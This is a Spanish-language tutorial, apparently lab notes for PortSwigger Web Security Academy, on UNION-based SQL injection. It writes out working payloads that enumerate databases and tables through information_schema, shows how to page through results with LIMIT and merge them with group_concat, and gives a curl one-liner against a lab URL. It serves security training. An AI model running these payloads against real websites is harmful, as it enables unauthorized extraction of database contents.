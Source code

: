 ## Listar todas las bases de datos

```sql
' UNION SELECT 1, schema_name FROM information_schema.schemata-- -
```
Al ejecutar esta query, en el laboratorio de ejemplo de Portswigger vemos algo así:

**Query realizada**

![Captura](./Imágenes/web_1.png)

**Bases de datos existentes**

![Captura](./Imágenes/web_2.png)

### Limit

En ocaciones, necesitaremos limitar la cantidad de información a mostrar. Para ello usaremos el parámetro `limit 0,1` para iterar entre las diferentes respuestas. Piense que hay casos que la información a extraer es extensa, y no es capaz de procesar toda la información de golpe. Por lo que limitar la informaicón mostrada iterarndo con `limit 0,1`, `limit 1,1`... es una buena alternativa

**Nota:** para no tener que iterar por cada post que haya en la página podemos empezar la query SQLi de la URL a partir del `=` y no desde su valor `=Gifts`

**Query habitual**: `https://web-security-academy.net/filter?category=Gifts' UNION SELECT 1, schema_name FROM information_schema.schemata-- -`

**Query sin post**: `https://web-security-academy.net/filter?category=Gifts' UNION SELECT 1, schema_name FROM information_schema.schemata limit 0,1-- -`

![Captura](./Imágenes/web_5.png)

### group_concat

Más potente que limit, y siempre que las circunstancias lo permitan, podemos usar el parámetro `group_concat` para agrupar la información y que se nos muestre de seguido

```bash
' UNION SELECT 1,group_concat(schema_name) FROM information_schema.schemata-- -
```

![Captura](./Imágenes/web_6.png)

### curl

En caso de obtener muchos resultados, y tener que usar limit sea algo lento de iterar, podemos o bien crear un script en bash que automatice esto, o usar el siguiente oneliner con curl 

```bash
curl -s -X GET https://0ab0008404e1b04e80a80d2500ce005d.web-security-academy.net/filter\?category\=%27%20union%20select%20NULL,table_name%20from%20information_schema.tables%20limit%201,1--%20-
```

![Captura](./Imágenes/curl_1.png)
